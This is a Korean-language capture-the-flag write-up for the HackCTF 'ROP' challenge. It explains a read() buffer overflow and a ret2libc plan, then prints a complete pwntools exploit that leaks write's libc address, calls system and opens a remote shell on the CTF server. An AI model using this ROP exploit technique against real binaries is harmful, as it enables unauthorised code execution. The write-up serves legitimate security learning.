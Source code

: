 ```yaml
---
layout: post
title:  "HackCTF ROP write-up"
date:   2020-02-03 19:45:55
image:  hackctf_rop.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```



### 1.  문제

---

**1) mitigation 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20ROP/Untitled.png)

NX비트가 걸려있고 Partial RELRO가 걸려있다. GOT overwrite는 가능할 것으로 보인다
<br><br><br>
**2) 문제 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20ROP/Untitled%201.png)

바이너리를 실행시키면 바로 입력을 받고, Hello, World!를 출력하고 종료된다.
<br><br><br>
**3) 코드 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20ROP/Untitled%202.png)

메인은 별게 없다. vulnerable_Function 함수가 하나 존재하고, write로 표준 출력을 통해 문자열을 출력시켜준다.
<br><br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20ROP/Untitled%203.png)

vulnerable_function 함수를 보면 read함수가 끝이다. 해당 함수를 이용하여 ret를 덮을수 있을 것이다.
<br><br><br><br>
### 2. 접근방법

---

딱 보면 어떻게 할지 보인다.

1) ret를 덮어 libc 주소를 알아낸다

2) 알아낸 주소를 통해 libc base를 알아내고, 이를 이용하여 system 함수를 호출한다.
<br><br>

그럼 지금 필요한 것이 무엇인지 정리를 해보자.
<br><br>
- 아무 함수의 libc 주소

    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20ROP/Untitled%204.png)
    
    현재 read, write, __gmon_start, __libc_start_main 이 4개가 끝이다. 따라서 write 함수로 write got를 인자로 넣어 write의 실 주소를 구해야 한다<br><br>

- libc  base 주소

    문제에서 libc.so.6 파일을 제공해줬으므로 이를 이용하여 write함수의 offset을 pwntools 기능을 통해 바로 구할수 있다. 따라서 위에서 구한 주소에서 offset을 빼서 base 주소를 구해야 한다<br><br>

- /bin/sh 주소

    read를 호출하게 하여 .bss 영역에 직접 입력을 하는 방법, 혹은 offset을 통해 libc에 저장된 /bin/sh 주소를 구하는 방식, 등을 이용하여 해당 문자열의 주소를 구해야 한다<br><br>

- system 함수 주소

    위에서 base 주소를 구했으므로, offset을 이용해야 구해야 한다.<br><br>

추가적으로 디버깅을 할때 현 내 로컬 시스템의 llibc가 아닌, 주어진 libc를 링킹해서 디버깅을 진행하면 간편하다. 방법은 아래의 코드를 익스코드 위에 추가하면 된다.

    ...
    env = {"LD_PRELOAD": os.path.join(os.getcwd(), "./libc.so.6")}
    p = process("./rop", env=env, aslr=False)
    ...
<br><br><br><br>
### 3. 풀이

---

최종 익스코드는 다음과 같다
```python
from pwn import *
context.log_level='DEBUG'
p=remote("ctf.j0n9hyun.xyz",3021)
#env = {"LD_PRELOAD": os.path.join(os.getcwd(), "./libc.so.6")}
#p = process("./rop", env=env, aslr=False)
e=ELF("./rop")
libc=ELF("./libc.so.6")
#gdb.attach(p,""" b* 0x0804847E  """)

write_plt=e.plt["write"]
write_got=e.got["write"]
read_plt=e.plt['read']

#log.info("libc_start_main offset::"+hex(e.symbols['__libc_start_main']))
log.info("write_plt::"+hex(write_plt))
log.info("write_got::"+hex(write_got))
#log.info("libc_base::"+hex(libc_base))

payload="A"*0x88+"B"*4
payload+=p32(write_plt)
payload+=p32(0x08048509)
payload+=p32(0x1)
payload+=p32(write_got)
payload+=p32(0x8)
payload+=p32(0x0804844b)
p.sendline(payload)
#log.info(p.recv)
#pause()
write_addr=p.recv(4)
#log.info(hex(write_addr))
#pause()
libc_base=u32(write_addr)-libc.symbols['write']

payload2="A"*0x8c
payload2+=p32(read_plt)
payload2+=p32(0x08048509)
payload2+=p32(0x0)
payload2+=p32(0x0804a024)
payload2+=p32(0x8)
payload2+=p32(libc_base+libc.symbols['system'])
payload2+="AAAA"
payload2+=p32(0x0804a024)

p.sendline(payload2)
p.sendline("/bin/sh\x00")
p.interactive()
```
<br><br><br>
### 4. 몰랐던 개념

---

처음에 read와 write는 syscall인데 libc 주소를 어케 구하지 라고 고민을 많이 했었다.

하지만 일반적으로 우리가 코딩할때 사용하는 read, write는 syscall이 아닌 libc에서 syscall read, write를 이용하여 wrapping한 read, write 였다.

따라서 이를 이용하여 똑같은 방식으로 libc leak을 진행하면 됬었다. 추후에 read, write 코드를 한번 봐야겠다.
